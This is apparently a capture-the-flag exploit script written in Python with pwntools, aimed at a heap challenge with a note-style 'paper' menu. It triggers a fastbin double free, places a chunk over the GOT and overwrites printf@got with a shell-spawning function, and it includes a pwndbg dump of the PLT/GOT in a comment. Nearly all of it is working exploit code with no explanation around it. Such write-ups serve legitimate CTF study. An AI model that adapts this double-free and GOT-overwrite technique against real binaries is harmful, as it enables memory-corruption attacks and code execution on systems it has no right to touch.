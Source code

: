 ```python
    choose(2)
    p.recvuntil("which paper you want to delete,please enter it's index(0-9):")
    p.sendline(str(index))

add_paper(0,0x30,'aaaa')
add_paper(1,0x30,'bbbb')

delete_paper(0) #double free
delete_paper(1)
delete_paper(0)

system_addr=elf.symbols['gg'] #get system(gg function) addr
puts_got_addr=elf.got['puts'] #get puts.got.plt addr
print hex(elf.plt['puts']) #0x400720
log.success("get system_addr : "+hex(system_addr))
log.success("puts_got_addr : "+hex(puts_got_addr)) #puts@got.plt==0x602020
'''
pwndbg> x/16gx 0x400720
0x400720 <puts@plt>:	0x0168002018fa25ff	0xffffffd0e9000000
0x400730 <fread@plt>:	0x0268002018f225ff	0xffffffc0e9000000
0x400740 <__stack_chk_fail@plt>:	0x0368002018ea25ff	0xffffffb0e9000000
0x400750 <system@plt>:	0x0468002018e225ff	0xffffffa0e9000000
0x400760 <printf@plt>:	0x0568002018da25ff	0xffffff90e9000000
0x400770 <__libc_start_main@plt>:	0x0668002018d225ff	0xffffff80e9000000
0x400780 <__gmon_start__@plt>:	0x0768002018ca25ff	0xffffff70e9000000
0x400790 <strtol@plt>:	0x0868002018c225ff	0xffffff60e9000000
pwndbg> x/16gx 0x602020
0x602020 <puts@got.plt>:	0x00007ffff7a7c6a0	0x00007ffff7a7b1b0
0x602030 <__stack_chk_fail@got.plt>:	0x0000000000400746	0x0000000000400756
0x602040 <printf@got.plt>:	0x00007ffff7a62810	0x00007ffff7a2d750
0x602050 <__gmon_start__@got.plt>:	0x0000000000400786	0x00007ffff7a483d0
0x602060 <malloc@got.plt>:	0x00007ffff7a91180	0x00007ffff7a7ce80
0x602070 <__isoc99_scanf@got.plt>:	0x00007ffff7a784e0	0x00000000004007d6
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000000
pwndbg> 
'''
victim_addr=puts_got_addr+0xa
add_paper(2,0x30,p64(victim_addr))
add_paper(3,0x30,'cccc')
add_paper(4,0x30,'dddd')
gdb.attach(p)
add_paper(5,0x30,"\x40\x00\x00\x00\x00\x00"+p64(system_addr)) #overwrite printf@got.plt
															  #复写got表并防止system@got.plt被破坏
p.sendline('Cyberangel')
p.interactive()
```

